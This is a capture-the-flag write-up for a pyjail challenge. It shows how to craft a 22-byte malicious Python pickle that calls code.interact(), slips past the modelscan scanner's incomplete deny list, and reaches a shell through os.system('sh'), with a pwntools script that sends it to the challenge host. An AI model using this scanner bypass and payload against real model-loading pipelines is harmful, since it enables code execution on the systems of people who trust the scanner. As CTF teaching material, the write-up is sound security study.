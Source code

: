 # modelscanjail

```
why even try to blacklist python pickle ...

nc challs1.pyjail.club 16050
```

Attachment:

```python
#!/usr/local/bin/python3
import modelscan.settings
import modelscan.modelscan
import pickle

scan = modelscan.modelscan.ModelScan(settings=modelscan.settings.DEFAULT_SETTINGS)

open('/tmp/malicious.pkl', 'wb').write(bytes.fromhex(input('> '))[:23])

result = scan.scan('/tmp/malicious.pkl')
if result['issues'] or result['errors']:
    print(result)
    print('no')
    exit()

pickle.loads(open('/tmp/malicious.pkl', 'rb').read())
```

We need to create a malicious pickle under 23 bytes and passing modelscan validation. The validation is done in [picklescanner.py](https://github.com/protectai/modelscan/blob/main/modelscan/tools/picklescanner.py) and many functions are banned from [settings.py](https://github.com/protectai/modelscan/blob/main/modelscan/settings.py):

```python
"__builtin__": [
    "eval",
    "compile",
    "getattr",
    "apply",
    "exec",
    "open",
    "breakpoint",
    "__import__",
],
"os": "*",
# ... many more
```

However, inspired by [pull request #313](https://github.com/protectai/modelscan/pull/313), the list is incomplete. For example. `code.interact` is not banned. We can construct a pickle that calls it by:

1. `GLOBAL + b"code\ninteract\n"`: load global variable `interact` from `code` module onto the stack
2. `EMPTY_TUPLE`: push `()` onto the stack, it will be the arguments to `code.interact`
3. `REDUCE`: pop two elements from stack, the first is the argument tuple (empty tuple here), the second is the function itself (`code.interact` here), so it effectively calls `code.interact()`
4. `STOP`: make `pickletools.genops` happy, otherwise modelscan will complain

Attack script:

```python
from pwn import *
from pickle import *
import pickletools

context(log_level="debug")


def encode_str(s):
    b = s.encode()
    return bytes([len(b)]) + b


payload = GLOBAL + b"code\ninteract\n" + EMPTY_TUPLE + REDUCE + STOP  # call code.interact()
pickletools.dis(payload)
print(list(pickletools.genops(payload)))
assert len(payload) <= 23

# p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 16050)
p.sendline(payload.hex().encode())
p.recvuntil(b">>>")
p.sendline(b"import os;os.system('sh')")
p.interactive()
```

Flag: `jail{they_really_dont_care_bruh_fdf1d09caee6d95c}`.
